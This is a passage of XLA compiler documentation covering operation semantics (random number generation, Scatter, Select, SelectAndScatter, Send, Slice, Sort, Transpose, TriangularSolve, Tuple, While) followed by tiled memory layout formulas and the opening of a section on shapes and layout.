parameters furthermore have to be scalar valued.

<b>`RngNormal(mu, sigma, shape)`</b>

| Arguments | Type    | Semantics                                           |
| --------- | ------- | --------------------------------------------------- |
| `mu`      | `XlaOp` | Scalar of type T specifying mean of generated       |
:           :         : numbers                                   :
| `sigma`   | `XlaOp` | Scalar of type T specifying standard deviation of   |
:           :         : generated numbers                                   :
| `shape`   | `Shape` | Output shape of type T                              |

## RngUniform

See also
[`XlaBuilder::RngUniform`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Constructs an output of a given shape with random numbers generated following
the uniform distribution over the interval $$[a,b)$$. The parameters and output
element type have to be a boolean type, an integral type or a floating point
types, and the types have to be consistent. The CPU and GPU backends currently
only support F64, F32, F16, BF16, S64, U64, S32 and U32. Furthermore, the
parameters need to be scalar valued. If $$b <= a$$ the result is
implementation-defined.

<b>`RngUniform(a, b, shape)`</b>

| Arguments | Type                    | Semantics                         |
| --------- | ----------------------- | --------------------------------- |
| `a`       | `XlaOp`                 | Scalar of type T specifying lower |
:           :                         : limit of interval                 :
| `b`       | `XlaOp`                 | Scalar of type T specifying upper |
:           :                         : limit of interval                 :
| `shape`   | `Shape`                 | Output shape of type T            |

## RngBitGenerator

Generates an output with a given shape filled with uniform random bits using the
specified algorithm (or backend default) and returns an updated state (with the
same shape as initial state) and the generated random data.

Initial state is the initial state of the current random number generation. It
and the required shape and valid values are dependent on the algorithm used.

The output is guaranteed to be a deterministic function of the initial state but
it is *not* guaranteed to be deterministic between backends and different
compiler versions.

<b>`RngBitGenerator(algorithm, key, shape)`</b>

Arguments       | Type              | Semantics
--------------- | ----------------- | -------------------------------------
`algorithm`     | `RandomAlgorithm` | PRNG algorithm to be used.
`initial_state` | `XlaOp`           | Initial state for the PRNG algorithm.
`shape`         | `Shape`           | Output shape for generated data.

Available values for `algorithm`:

-   `rng_default`: Backend specific algorithm with backend specific shape
    requirements.

-   `rng_three_fry`: ThreeFry counter-based PRNG algorithm. The `initial_state`
    shape is `u64[2]` with arbitrary values.
    [Salmon et al. SC 2011. Parallel random numbers: as easy as 1, 2, 3.](http://www.thesalmons.org/john/random123/papers/random123sc11.pdf)

-   `rng_philox`: Philox algorithm to generate random numbers in parallel. The
    `initial_state` shape is `u64[3]` with arbitrary values.
    [Salmon et al. SC 2011. Parallel random numbers: as easy as 1, 2, 3.](http://www.thesalmons.org/john/random123/papers/random123sc11.pdf)

## Scatter

The XLA scatter operation generates a result which is the value of the input
array `operand`, with several slices (at indices specified by `scatter_indices`)
updated with the values in `updates` using `update_computation`.

See also
[`XlaBuilder::Scatter`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `scatter(operand, scatter_indices, updates, update_computation, index_vector_dim, update_window_dims, inserted_window_dims, scatter_dims_to_operand_dims)` </b>

Arguments                      | Type                | Semantics
------------------------------ | ------------------- | ---------
`operand`                      | `XlaOp`             | Array to be scattered into.
`scatter_indices`              | `XlaOp`             | Array containing the starting indices of the slices that must be scattered to.
`updates`                      | `XlaOp`             | Array containing the values that must be used for scattering.
`update_computation`           | `XlaComputation`    | Computation to be used for combining the existing values in the input array and the updates during scatter. This computation should be of type `(T, T) -> T`.
`index_vector_dim`             | `int64`             | The dimension in `scatter_indices` that contains the starting indices.
`update_window_dims`           | `ArraySlice<int64>` | The set of dimensions in `updates` shape that are _window dimensions_.
`inserted_window_dims`         | `ArraySlice<int64>` | The set of _window dimensions_ that must be inserted into `updates` shape.
`scatter_dims_to_operand_dims` | `ArraySlice<int64>` | A dimensions map from the scatter indices to the operand index space. This array is interpreted as mapping `i` to `scatter_dims_to_operand_dims[i]` . It has to be one-to-one and total.
`indices_are_sorted`           | `bool`              | Whether the indices are guaranteed to be sorted by the caller.

If `index_vector_dim` is equal to `scatter_indices.rank` we implicitly consider
`scatter_indices` to have a trailing `1` dimension.

We define `update_scatter_dims` of type `ArraySlice<int64>` as the set of
dimensions in `updates` shape that are not in `update_window_dims`, in ascending
order.

The arguments of scatter should follow these constraints:

-   `updates` array must be of rank `update_window_dims.size +
    scatter_indices.rank - 1`.

-   Bounds of dimension `i` in `updates` must conform to the following:

    -   If `i` is present in `update_window_dims` (i.e. equal to
        `update_window_dims`[`k`] for some `k`), then the bound of dimension `i`
        in `updates` must not exceed the corresponding bound of `operand` after
        accounting for the `inserted_window_dims` (i.e.
        `adjusted_window_bounds`[`k`], where `adjusted_window_bounds` contains
        the bounds of `operand` with the bounds at indices
        `inserted_window_dims` removed).
    -   If `i` is present in `update_scatter_dims` (i.e. equal to
        `update_scatter_dims`[`k`] for some `k`), then the bound of dimension
        `i` in `updates` must be equal to the corresponding bound of
        `scatter_indices`, skipping `index_vector_dim` (i.e.
        `scatter_indices.shape.dims`[`k`], if `k` < `index_vector_dim` and
        `scatter_indices.shape.dims`[`k+1`] otherwise).

-   `update_window_dims` must be in ascending order, not have any repeating
    dimension numbers, and be in the range `[0, updates.rank)`.

-   `inserted_window_dims` must be in ascending order, not have any repeating
    dimension numbers, and be in the range `[0, operand.rank)`.

-   `operand.rank` must equal the sum of `update_window_dims.size` and
    `inserted_window_dims.size`.

-   `scatter_dims_to_operand_dims.size` must be equal to
    `scatter_indices`[`index_vector_dim`], and its values must be in the range
    `[0, operand.rank)`.

For a given index `U` in the `updates` array, the corresponding index `I` in the
`operand` array into which this update has to be applied is computed as follows:

1.  Let `G` = { `U`[`k`] for `k` in `update_scatter_dims` }. Use `G` to look up
    an index vector `S` in the `scatter_indices` array such that `S`[`i`] =
    `scatter_indices`[Combine(`G`, `i`)] where Combine(A, b) inserts b at
    positions `index_vector_dim` into A.
2.  Create an index `S`<sub>`in`</sub> into `operand` using `S` by scattering
    `S` using the `scatter_dims_to_operand_dims` map. More formally:
    1.  `S`<sub>`in`</sub>[`scatter_dims_to_operand_dims`[`k`]] = `S`[`k`] if
        `k` < `scatter_dims_to_operand_dims.size`.
    2.  `S`<sub>`in`</sub>[`_`] = `0` otherwise.
3.  Create an index `W`<sub>`in`</sub> into `operand` by scattering the indices
    at `update_window_dims` in `U` according to `inserted_window_dims`. More
    formally:
    1.  `W`<sub>`in`</sub>[`window_dims_to_operand_dims`(`k`)] = `U`[`k`] if `k`
        is in `update_window_dims`, where `window_dims_to_operand_dims` is the
        monotonic function with domain [`0`, `update_window_dims.size`) and
        range [`0`, `operand.rank`) \\ `inserted_window_dims`. (For example, if
        `update_window_dims.size` is `4`, `operand.rank` is `6`, and
        `inserted_window_dims` is {`0`, `2`} then `window_dims_to_operand_dims`
        is {`0`→`1`, `1`→`3`, `2`→`4`, `3`→`5`}).
    2.  `W`<sub>`in`</sub>[`_`] = `0` otherwise.
4.  `I` is `W`<sub>`in`</sub> + `S`<sub>`in`</sub> where + is element-wise
    addition.

In summary, the scatter operation can be defined as follows.

-   Initialize `output` with `operand`, i.e. for all indices `O` in the
    `operand` array: \
    `output`[`O`] = `operand`[`O`]
-   For every index `U` in the `updates` array and the corresponding index `O`
    in the `operand` array, if `O` is a valid index for `output`: \
    `output`[`O`] = `update_computation`(`output`[`O`], `updates`[`U`])

The order in which updates are applied is non-deterministic. So, when multiple
indices in `updates` refer to the same index in `operand`, the corresponding
value in `output` will be non-deterministic.

Note that the first parameter that is passed into the `update_computation` will
always be the current value from the `output` array and the second parameter
will always be the value from the `updates` array. This is important
specifically for cases when the `update_computation` is _not commutative_.

If `indices_are_sorted` is set to true then XLA can assume that `start_indices`
are sorted (in ascending `start_index_map` order) by the user. If they are not
then the semantics is implementation defined.

Informally, the scatter op can be viewed as an _inverse_ of the gather op, i.e.
the scatter op updates the elements in the input that are extracted by the
corresponding gather op.

For a detailed informal description and examples, refer to the
"Informal Description" section under `Gather`.

## Select

See also
[`XlaBuilder::Select`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Constructs an output array from elements of two input arrays, based on the
values of a predicate array.

<b> `Select(pred, on_true, on_false)` </b>

Arguments  | Type    | Semantics
---------- | ------- | ------------------
`pred`     | `XlaOp` | array of type PRED
`on_true`  | `XlaOp` | array of type T
`on_false` | `XlaOp` | array of type T

The arrays `on_true` and `on_false` must have the same shape. This is also the
shape of the output array. The array `pred` must have the same dimensionality as
`on_true` and `on_false`, with the `PRED` element type.

For each element `P` of `pred`, the corresponding element of the output array is
taken from `on_true` if the value of `P` is `true`, and from `on_false` if the
value of `P` is `false`. As a restricted form of [broadcasting](broadcasting.md),
`pred` can be a scalar of type `PRED`. In this case, the output array is taken
wholly from `on_true` if `pred` is `true`, and from `on_false` if `pred` is `false`.

Example with non-scalar `pred`:

```
let pred: PRED[4] = {true, false, false, true};
let v1: s32[4] = {1, 2, 3, 4};
let v2: s32[4] = {100, 200, 300, 400};
==>
Select(pred, v1, v2) = s32[4]{1, 200, 300, 4};
```

Example with scalar `pred`:

```
let pred: PRED = true;
let v1: s32[4] = {1, 2, 3, 4};
let v2: s32[4] = {100, 200, 300, 400};
==>
Select(pred, v1, v2) = s32[4]{1, 2, 3, 4};
```

Selections between tuples are supported. Tuples are considered to be scalar
types for this purpose. If `on_true` and `on_false` are tuples (which must have
the same shape!) then `pred` has to be a scalar of type `PRED`.

## SelectAndScatter

See also
[`XlaBuilder::SelectAndScatter`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

This operation can be considered as a composite operation that first computes
`ReduceWindow` on the `operand` array to select an element from each window, and
then scatters the `source` array to the indices of the selected elements to
construct an output array with the same shape as the operand array. The binary
`select` function is used to select an element from each window by applying it
across each window, and it is called with the property that the first
parameter's index vector is lexicographically less than the second parameter's
index vector. The `select` function returns `true` if the first parameter is
selected and returns `false` if the second parameter is selected, and the
function must hold transitivity (i.e., if `select(a, b)` and `select(b, c)` are
`true`, then `select(a, c)` is also `true`) so that the selected element does
not depend on the order of the elements traversed for a given window.

The function `scatter` is applied at each selected index in the output array. It
takes two scalar parameters:

1.  Current value at the selected index in the output array
2.  The scatter value from `source` that applies to the selected index

It combines the two parameters and returns a scalar value that's used to update
the value at the selected index in the output array. Initially, all indices of
the output array are set to `init_value`.

The output array has the same shape as the `operand` array and the `source`
array must have the same shape as the result of applying a `ReduceWindow`
operation on the `operand` array. `SelectAndScatter` can be used to
backpropagate the gradient values for a pooling layer in a neural network.

<b>`SelectAndScatter(operand, select, window_dimensions, window_strides,
padding, source, init_value, scatter)`</b>

| Arguments           | Type                | Semantics                        |
| ------------------- | ------------------- | -------------------------------- |
| `operand`           | `XlaOp`             | array of type T over which the   |
:                     :                     : windows slide                    :
| `select`            | `XlaComputation`    | binary computation of type `T, T |
:                     :                     : -> PRED`, to apply to all        :
:                     :                     : elements in each window; returns :
:                     :                     : `true` if the first parameter is :
:                     :                     : selected and returns `false` if  :
:                     :                     : the second parameter is selected :
| `window_dimensions` | `ArraySlice<int64>` | array of integers for window     |
:                     :                     : dimension values                 :
| `window_strides`    | `ArraySlice<int64>` | array of integers for window     |
:                     :                     : stride values                    :
| `padding`           | `Padding`           | padding type for window          |
:                     :                     : (Padding\:\:kSame or             :
:                     :                     : Padding\:\:kValid)               :
| `source`            | `XlaOp`             | array of type T with the values  |
:                     :                     : to scatter                       :
| `init_value`        | `XlaOp`             | scalar value of type T for the   |
:                     :                     : initial value of the output      :
:                     :                     : array                            :
| `scatter`           | `XlaComputation`    | binary computation of type `T, T |
:                     :                     : -> T`, to apply each scatter     :
:                     :                     : source element with its          :
:                     :                     : destination element              :

The figure below shows examples of using `SelectAndScatter`, with the `select`
function computing the maximal value among its parameters. Note that when the
windows overlap, as in the figure (2) below, an index of the `operand` array may
be selected multiple times by different windows. In the figure, the element of
value 9 is selected by both of the top windows (blue and red) and the binary
addition `scatter` function produces the output element of value 8 (2 + 6).

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

The evaluation order of the `scatter` function is arbitrary and may be
non-deterministic. Therefore, the `scatter` function should not be overly
sensitive to reassociation. See the discussion about associativity in the
context of [`Reduce`](#reduce) for more details.

## Send

See also
[`XlaBuilder::Send`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `Send(operand, channel_handle)` </b>

Arguments        | Type            | Semantics
---------------- | --------------- | -----------------------------------------
`operand`        | `XlaOp`         | data to send (array of type T)
`channel_handle` | `ChannelHandle` | unique identifier for each send/recv pair

Sends the given operand data to a `Recv` instruction in another computation
that shares the same channel handle. Does not return any data.

Similar to the `Recv` operation, the client API of `Send` operation represents
synchronous communication, and is internally decomposed into 2 HLO instructions
(`Send` and `SendDone`) to enable asynchronous data transfers. See also
[`HloInstruction::CreateSend` and `HloInstruction::CreateSendDone`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/hlo_instruction.h).

<b>`Send(HloInstruction operand, int64 channel_id)`</b>

Initiates an asynchronous transfer of the operand to the resources allocated by
the `Recv` instruction with the same channel id. Returns a context, which is
used by a following `SendDone` instruction to wait for the completion of the
data transfer. The context is a tuple of {operand (shape), request identifier
(U32)} and it can only be used by a `SendDone` instruction.

<b> `SendDone(HloInstruction context)` </b>

Given a context created by a `Send` instruction, waits for the data transfer to
complete.  The instruction does not return any data.

<b> Scheduling of channel instructions </b>

The execution order of the 4 instructions for each channel (`Recv`, `RecvDone`,
`Send`, `SendDone`) is as below.

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

* `Recv` happens before `Send`
* `Send` happens before `RecvDone`
* `Recv` happens before `RecvDone`
* `Send` happens before `SendDone`

When the backend compilers generate a linear schedule for each computation that
communicates via channel instructions, there must not be cycles across the
computations. For example, below schedules lead to deadlocks.

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

## Slice

See also
[`XlaBuilder::Slice`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Slicing extracts a sub-array from the input array. The sub-array is of the same
rank as the input and contains the values inside a bounding box within the input
array where the dimensions and indices of the bounding box are given as
arguments to the slice operation.

<b> `Slice(operand, start_indices, limit_indices)` </b>

| Arguments       | Type                | Semantics                            |
| --------------- | ------------------- | ------------------------------------ |
| `operand`       | `XlaOp`             | N dimensional array of type T        |
| `start_indices` | `ArraySlice<int64>` | List of N integers containing the    |
:                 :                     : starting indices of the slice for    :
:                 :                     : each dimension. Values must be       :
:                 :                     : greater than or equal to zero.       :
| `limit_indices` | `ArraySlice<int64>` | List of N integers containing the    |
:                 :                     : ending indices (exclusive) for the   :
:                 :                     : slice for each dimension. Each value :
:                 :                     : must be greater than or equal to the :
:                 :                     : respective `start_indices` value for :
:                 :                     : the dimension and less than or equal :
:                 :                     : to the size of the dimension.        :
| `strides`      | `ArraySlice<int64>` | List of N integers that decides the   |
:                 :                     : input stride of the slice.  The slice :
:                 :                     : picks every `strides[d]` element in  :
:                 :                     : dimension `d`.                       :


1-dimensional example:

```
let a = {0.0, 1.0, 2.0, 3.0, 4.0}
Slice(a, {2}, {4}) produces:
  {2.0, 3.0}
```

2-dimensional example:

```
let b =
 { {0.0,  1.0,  2.0},
   {3.0,  4.0,  5.0},
   {6.0,  7.0,  8.0},
   {9.0, 10.0, 11.0} }

Slice(b, {2, 1}, {4, 3}) produces:
  { { 7.0,  8.0},
    {10.0, 11.0} }
```

## Sort

See also
[`XlaBuilder::Sort`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b>`Sort(operands, comparator, dimension, is_stable)`</b>

Arguments    | Type                | Semantics
------------ | ------------------- | --------------------
`operands`   | `ArraySlice<XlaOp>` | The operands to sort.
`comparator` | `XlaComputation`    | The comparator computation to use.
`dimension`  | `int64`             | The dimension along which to sort.
`is_stable`  | `bool`              | Whether stable sorting should be used.

If only one operand is provided:

* If the operand is a rank-1 tensor (an array), the result is a sorted array.
  If you want to sort the array into ascending order, the comparator should
  perform a less-than comparison. Formally, after the array is sorted, it holds
  for all index positions `i, j` with `i < j` that either
  `comparator(value[i], value[j]) = comparator(value[j], value[i]) = false` or
  `comparator(value[i], value[j]) = true`.

* If the operand has higher rank, the operand is sorted along the provided
  dimension. For example, for a rank-2 tensor (a matrix), a dimension value of
  `0` will independently sort every column, and a dimension value of `1` will
  independently sort each row. If no dimension number is provided, then the last
  dimension is chosen by default. For the dimension which is sorted, the same
  sorting order applies as in the rank-1 case.

If `n > 1` operands are provided:

* All `n` operands must be tensors with the same dimensions. The element types
  of the tensors may be different.

* All operands are sorted together, not individually. Conceptually the operands
  are treated as a tuple. When checking whether the elements of each operand at
  index positions `i` and `j` need to be swapped, the comparator is called with
  `2 * n` scalar parameters, where parameter `2 * k` corresponds to the value at
  position `i` from the `k-th` operand, and parameter `2 * k + 1` corresponds to
  the value at position `j` from the `k-th` operand. Usually, the comparator
  would thus compare parameters `2 * k` and `2 * k + 1` with each other and
  possibly use other parameter pairs as tie breakers.

* The result is a tuple that consists of the operands in sorted order (along
  the provided dimension, as above). The `i-th` operand of the tuple corresponds
  to the `i-th` operand of Sort.

For example, if there are three operands `operand0 = [3, 1]`,
`operand1 = [42, 50]`, `operand2 = [-3.0, 1.1]`, and the comparator compares
only the values of `operand0` with less-than, then the output of the sort is the
tuple `([1, 3], [50, 42], [1.1, -3.0])`.

If `is_stable` is set to true, the sort is guaranteed to be stable, that is, if
there are elements which are considered to be equal by the comparator, the
relative order of the equal values is preserved. By default, `is_stable` is set
to false.

## Transpose

See also the `tf.reshape` operation.

<b>`Transpose(operand)`</b>

Arguments     | Type                | Semantics
------------- | ------------------- | ------------------------------
`operand`     | `XlaOp`             | The operand to transpose.
`permutation` | `ArraySlice<int64>` | How to permute the dimensions.


Permutes the operand dimensions with the given permutation, so
`∀ i . 0 ≤ i < rank ⇒ input_dimensions[permutation[i]] = output_dimensions[i]`.

This is the same as Reshape(operand, permutation,
                            Permute(permutation, operand.shape.dimensions)).

## TriangularSolve

See also
[`XlaBuilder::TriangularSolve`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Solves systems of linear equations with lower or upper triangular coefficient
matrices by forward- or back-substitution. Broadcasting along leading
dimensions, this routine solves one of the matrix systems `op(a) * x =
b`, or `x * op(a) = b`, for the variable `x`, given `a` and `b`, where `op(a)` is
either `op(a) = a`, or `op(a) = Transpose(a)`, or `op(a) = Conj(Transpose(a))`.

<b> `TriangularSolve(a, b, left_side, lower, unit_diagonal, transpose_a)` </b>

| Arguments       | Type        | Semantics                                    |
| --------------- | ----------- | -------------------------------------------- |
| `a`             | `XlaOp`     | a rank > 2 array of a complex or             |
:                 :             : floating-point type with shape `[..., M,     :
:                 :             : M]`.                                         :
| `b`             | `XlaOp`     | a rank > 2 array of the same type with shape |
:                 :             : `[..., M, K]` if `left_side` is true, `[..., :
:                 :             : K, M]` otherwise.                            :
| `left_side`     | `bool`      | indicates whether to solve a system of the   |
:                 :             : form `op(a) * x = b` (`true`) or `x *        :
:                 :             : op(a) = b` (`false`).                        :
| `lower`         | `bool`      | whether to use the upper or lower triangle   |
:                 :             : of `a`.                                      :
| `unit_diagonal` | `bool`      | if `true`, the diagonal elements of `a` are  |
:                 :             : assumed to be `1` and not accessed.          :
| `transpose_a`   | `Transpose` | whether to use `a` as is, transpose it or    |
:                 :             : take its conjugate transpose.                :

Input data is read only from the lower/upper triangle of `a`, depending on the
value of `lower`. Values from the other triangle are ignored. Output data is
returned in the same triangle; the values in the other triangle are
implementation-defined and may be anything.

If the rank of `a` and `b` are greater than 2, they are treated as batches of
matrices, where all except the minor 2 dimensions are batch dimensions. `a` and
`b` must have equal batch dimensions.

## Tuple

See also
[`XlaBuilder::Tuple`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

A tuple containing a variable number of data handles, each of which has its own
shape.

This is analogous to `std::tuple` in C++. Conceptually:

```
let v: f32[10] = f32[10]{0, 1, 2, 3, 4, 5, 6, 7, 8, 9};
let s: s32 = 5;
let t: (f32[10], s32) = tuple(v, s);
```

Tuples can be deconstructed (accessed) via the [`GetTupleElement`]
(#gettupleelement) operation.

## While

See also
[`XlaBuilder::While`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `While(condition, body, init)` </b>

| Arguments   | Type             | Semantics                                |
| ----------- | ---------------- | ---------------------------------------- |
| `condition` | `XlaComputation` | XlaComputation of type `T -> PRED` which |
:             :                  : defines the termination condition of the :
:             :                  : loop.                                    :
| `body`      | `XlaComputation` | XlaComputation of type `T -> T` which    |
:             :                  : defines the body of the loop.            :
| `init`      | `T`              | Initial value for the parameter of       |
:             :                  : `condition` and `body`.                  :

Sequentially executes the `body` until the `condition` fails. This is similar to
a typical while loop in many other languages except for the differences and
restrictions listed below.

*   A `While` node returns a value of type `T`, which is the result from the
    last execution of the `body`.
*   The shape of the type `T` is statically determined and must be the same
    across all iterations.

The T parameters of the computations are initialized with the `init` value in
the first iteration and are automatically updated to the new result from `body`
in each subsequent iteration.

One main use case of the `While` node is to implement the repeated execution of
training in neural networks. Simplified pseudocode is shown below with a graph
that represents the computation. The code can be found in
[`while_test.cc`](https://www.tensorflow.org/code/tensorflow/compiler/xla/tests/while_test.cc).
The type `T` in this example is a `Tuple` consisting of an `int32` for the
iteration count and a `vector[10]` for the accumulator. For 1000 iterations, the
loop keeps adding a constant vector to the accumulator.

```
// Pseudocode for the computation.
init = {0, zero_vector[10]} // Tuple of int32 and float[10].
result = init;
while (result(0) < 1000) {
  iteration = result(0) + 1;
  new_vector = result(1) + constant_vector[10];
  result = {iteration, new_vector};
}
```

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>
# Tiled layout

Caution: Tiled layout is *pre-release* and this describes how it's intended to
work. Errors may be silently ignored.

<p align="center">
  
  Figure 1
</p>

Figure 1 shows how an array F32[3,5] is laid out in memory with 2x2 tiling. A
shape with this layout is written as F32[3,5]{1,0:T(2,2)}, where 1,0 relates to
the physical order of dimensions (minor_to_major field in Layout) while (2,2)
after the colon indicates tiling of the physical dimensions by a 2x2 tile.

Intuitively tiles are laid out to cover the shape and then within each tile,
elements are then laid out without tiling, as in the example above, where the
right part of the example shows the layout in memory, including the white
padding elements that are added in order to have complete 2x2 tiles even though
the original array bounds are not even.

The extra elements in the padding are not required to contain any particular
value.

## Linear index formulas for tiling given a shape and a tile

Without tiling, an element e=(e<sub>n</sub>, e<sub>n-1</sub>, ... ,
e<sub>1</sub>) in an array with array bounds d=(d<sub>n</sub>, d<sub>n-1</sub>,
... , d<sub>1</sub>) (d1 is the most minor dimension) is laid out by major to
minor order at position:

&nbsp;&nbsp; linear_index(e, d) \
= linear_index((e<sub>n</sub>, e<sub>n-1</sub>, ... , e<sub>1</sub>),
(d<sub>n</sub>, d<sub>n-1</sub>, ... , d<sub>1</sub>)) \
= e<sub>n</sub>d<sub>n-1</sub>...d<sub>1</sub> +
e<sub>n-1</sub>d<sub>n-2</sub>...d<sub>1</sub> + ... + e<sub>1</sub>

For simplicity of notation in this document we assume a tile has the same number
of dimensions as the array. In XLA's implementation of tiling, this is
generalized to tilings with fewer dimensions by leaving the initial most-major
dimensions unchanged and applying the tiling only to the most minor dimensions,
so that the tiling that is specified mentions a suffix of the physical
dimensions of the shape being tiled.

When tiling of size (t<sub>n</sub>, t<sub>n-1</sub>, ... , t<sub>1</sub>) is
used, an element in the array with indices (e<sub>n</sub>, e<sub>n-1</sub>, ...
, e<sub>1</sub>) is mapped to this position in the final layout:

&nbsp;&nbsp; linear_index_with_tile(e, d, t) \
= linear_index((⌊e/t⌋, e mod t), (⌈d/t⌉, t)) &nbsp; &nbsp; (arithmetic is
elementwise, (a,b) is concatenation) \
= linear_index((⌊e<sub>n</sub>/t<sub>n</sub>⌋, ... ,
⌊e<sub>1</sub>/t<sub>1</sub>⌋, e<sub>n</sub> mod t<sub>n</sub>, ... ,
e<sub>1</sub> mod t<sub>1</sub>), (⌈d<sub>n</sub>/t<sub>n</sub>⌉, ... ,
⌈d<sub>1</sub>/t<sub>1</sub>⌉, t<sub>n</sub>, t<sub>n-1</sub>, ... ,
t<sub>1</sub>)) \
= linear_index((⌊e<sub>n</sub>/t<sub>n</sub>⌋, ... ,
⌊e<sub>1</sub>/t<sub>1</sub>⌋), (⌈d<sub>n</sub>/t<sub>n</sub>⌉, ... ,
⌈d<sub>1</sub>/t<sub>1</sub>⌉))∙t<sub>n</sub>t<sub>n-1</sub>...t<sub>1</sub> +
linear_index((e<sub>n</sub> mod t<sub>n</sub>, ... , e<sub>1</sub> mod
t<sub>1</sub>), (t<sub>n</sub>, t<sub>n-1</sub>, ... , t<sub>1</sub>))

The layout can be thought of as having two parts:
(⌊e<sub>n</sub>/t<sub>n</sub>⌋, ... , ⌊e<sub>1</sub>/t<sub>1</sub>⌋), which
corresponds to a tile index in an array of tiles of size
(⌈d<sub>n</sub>/t<sub>n</sub>⌉, ... , ⌈d<sub>1</sub>/t<sub>1</sub>⌉), and
(e<sub>n</sub> mod t<sub>n</sub>, ... , e<sub>1</sub> mod t<sub>1</sub>), which
corresponds to a within-tile index. The ceil function appears in
⌈d<sub>i</sub>/t<sub>i</sub>⌉ because if tiles overrun the bounds of the larger
array, padding is inserted as in Figure 1. Both the tiles and elements within
tiles are laid out recursively without tiling.

For the example in Figure 1, element (2,3) has tile index (1,1), and within-tile
index (0,1), for a combined coordinate vector of (1, 1, 0, 1). The tile indices
have bounds (2, 3) and the tile itself is (2, 2) for a combined vector of (2, 3,
2, 2). The linear index with tile for the element with index (2, 3) in the
logical shape is then

&nbsp;&nbsp; linear_index_with_tile((2,3), (3,5), (2,2)) \
= linear_index((1,1,0,1), (2,3,2,2)) \
= linear_index((1,1), (2,3)) ∙ 2 ∙ 2 + linear_index((0,1), (2,2)) \
= (1 ∙ 3 + 1) ∙ 2 ∙ 2 + (0 ∙ 2 + 1) \
= 17.

# Tiling as pad-reshape-transpose

Tiling-based layout operates as follows: \
Consider an array of dimensions (d<sub>n</sub>, d<sub>n-1</sub>, ... , d1) (d1
is the most minor dimension). When it’s laid out with tiling of size
(t<sub>n</sub>, t<sub>n-1</sub>, ... , t<sub>1</sub>) (t<sub>1</sub> is the most
minor dimension), that tiling can be described in terms of pad-reshape-transpose
in the following way.

1.  The array is padded to (⌈d<sub>n</sub>/t<sub>n</sub>⌉∙t<sub>n</sub>, ... ,
    ⌈d<sub>1</sub>/t<sub>1</sub>⌉∙t<sub>1</sub>).
2.  Each dimension i is broken into (⌈d<sub>i</sub>/t</sub>i</sub>⌉,
    t<sub>i</sub>), i.e. the array is reshaped to \
    &nbsp; &nbsp; (⌈d<sub>n</sub>/t<sub>n</sub>⌉, t<sub>n</sub>, ... ,
    ⌈d<sub>1</sub>/t<sub>1</sub>⌉, t<sub>1</sub>). \
    There is no physical layout change in this reshape by itself, so this
    reshape is a bitcast. If one is not explicitly thinking of a tiling, this
    reshape could express any shape with the same number of elements as the
    padded shape - the example here is of how to express a tile in this way.
3.  A transpose happens by moving t<sub>n</sub>, ... , t<sub>1</sub> to the most
    minor dimensions while keeping their relative order, so that the order of
    dimensions from most major to most minor becomes \
    &nbsp; &nbsp; (⌈d<sub>n</sub>/t<sub>n</sub>⌉, ... ,
    ⌈d<sub>1</sub>/t<sub>1</sub>⌉, t<sub>n</sub>, ... , t<sub>1</sub>).

The final shape has the prefix \
&nbsp; &nbsp; (⌈d<sub>n</sub>/t<sub>n</sub>⌉, ... ,
⌈d<sub>1</sub>/t<sub>1</sub>⌉), which describes the number of tiles in each
dimension. An element in the array (e<sub>n</sub>, ... , e<sub>1</sub>) is
mapped to this element in the final shape: \
&nbsp; &nbsp; (⌊e<sub>n</sub>/t<sub>n</sub>⌋, ... ,
⌊e<sub>0</sub>/t<sub>0</sub>⌋, e<sub>n</sub> mod t<sub>n</sub>, ... ,
e<sub>1</sub> mod t<sub>1</sub>). It is easy to see that the linear index of the
element follows the formula above as expected.

# Repeated tiling

XLA's tiling becomes even more flexible by applying it repeatedly.

<p align="center">
  
  Figure 2
</p>

Figure 2 shows how an array of size 4x8 is tiled by two levels of tiling (first
2x4 then 2x1). We represent this repeated tiling as (2,4)(2,1). Each color
indicates a 2x4 tile and each red border box is a 2x1 tile. The numbers
indicates the linear index in memory of that element in the tiled format. This
format matches the format used for BF16 on TPU, except that the initial tile is
bigger, namely the tiling is (8,128)(2,1), where the purpose of the second
tiling by 2x1 is to collect together two 16 bit values to form one 32 bit value
in a way that aligns with the architecture of a TPU.

Note that a second or later tile can refer to both the minor within-tile
dimensions, which just rearranges data within the tile, as in this example with
(8,128)(2,1), but can also refer to the major cross-tile dimensions from the
prior tiling.

# Combining dimensions using tiles

XLA's tiling also supports combining dimensions. For example, it can combine
dimensions in F32[2,7,8,11,10]{4,3,2,1,0} into F32[112,110]{1,0} first before
tiling it with (2,3). The tile used is (&lowast;,&lowast;,2,&lowast;,3). Here an
asterisk in a tile implies taking that dimension and combining it with the next
more minor dimension. Multiple adjacent dimensions can be subsumed together into
one dimension. A subsumed dimension is represented by a tile value of -1 in that
dimension of the tile, which is not otherwise valid in a tile as a dimension
size.

More precisely, if dimension i of the shape is eliminated via an asterisk in the
tile, then before the prior definition of tiling is applied, that dimension is
removed from both the shape being tiled and the tile vector, and what was
dimension i-1 of the shape has its array bound increased from d<sub>i-1</sub> to
d<sub>i</sub>d<sub>i-1</sub>. This step is repeated for each asterisk in the
tile vector.
# XLA: Accelerated Linear Algebra

These are the docs for: https://www.tensorflow.org/xla
# Shapes and Layout

The XLA `Shape` proto
([xla_data.proto](https://www.tensorflow.org/code/tensorflow/compiler/xla/xla_data.proto))
describes the rank, size, and data type of an N-dimensional array (*array* in
short).

## Terminology, Notation, and Conventions

*   The rank of an array is equal to the number of dimensions. The *true rank*
    of an array is the number of dimensions which have a size greater than 1.

*   Dimensions are numbered from `0` up to `N-1` for an `N` dimensional array.
